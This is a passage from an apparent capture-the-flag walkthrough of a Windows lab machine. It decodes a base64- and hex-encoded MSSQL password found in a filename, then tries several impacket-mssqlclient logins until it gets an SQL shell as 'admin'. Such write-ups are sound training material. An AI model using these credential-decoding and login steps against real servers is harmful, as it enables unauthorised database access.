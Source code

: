We can login, but nothing really interesting here. The note file also said that the **sa** account of the database is embedded in the filename. Let's decode it.

```bash
$ echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d                                                                     
6d2424716c5f53405f504073735730726421
```

It looks like hexadecimal value. Maybe we can decode it.

```bash
$ echo 6d2424716c5f53405f504073735730726421 | xxd -r -p 
m$$ql_S@_P@ssW0rd!
```

Now, maybe we can access to the MSSQL server using these credentials and [impacket-mssqlclient](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).

```bash
$ impacket-mssqlclient 'sa@10.129.100.147'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```

Fail... Let's see if we can use the **admin** credentials to login.

```bash
impacket-mssqlclient 'admin@10.129.100.147'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'admin'.
```

Still no luck. Maybe we can use **admin** and the password of **sa**.

```bash
$ impacket-mssqlclient 'admin@10.129.100.147'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands

SQL>
```
